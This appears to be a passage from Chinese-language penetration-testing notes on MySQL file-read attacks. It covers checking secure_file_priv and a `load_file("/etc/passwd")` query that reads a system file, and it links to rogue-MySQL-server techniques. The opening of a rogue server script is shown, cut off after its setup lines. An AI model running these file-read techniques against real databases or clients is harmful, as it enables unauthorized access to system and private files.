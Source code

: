 ```
Time: 0.010s
mysql root@localhost:(none)> select @@secure_file_priv;
+--------------------+
| @@secure_file_priv |
+--------------------+
| <null>             |
+--------------------+
1 row in set
Time: 0.007s
mysql root@localhost:(none)> select @@global.secure_file_priv;
+---------------------------+
| @@global.secure_file_priv |
+---------------------------+
| <null>                    |
+---------------------------+
1 row in set
Time: 0.011s
mysql root@localhost:(none)> show variables like "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set
Time: 0.012s
```

### 读文件

`select load_file("/etc/passwd")`路径必须是绝对路径,同时要注意文件大小限制

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202021155836.png)

- 利用`LOAD DATA INFILE`进行文件读取

[Mysql Client 任意文件读取攻击链拓展](https://lengjibo.github.io/mysqlc/)

[恶意MySQL Server读取MySQL Client端文件](http://blog.nsfocus.net/malicious-mysql-server-reads-mysql-client-files/)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204222134687.png)

[利用脚本](https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py)

>需要对这个脚本的`Server Greeting`进行一定的修改

```python
# -*- coding: UTF-8 -*-
import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers



PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
```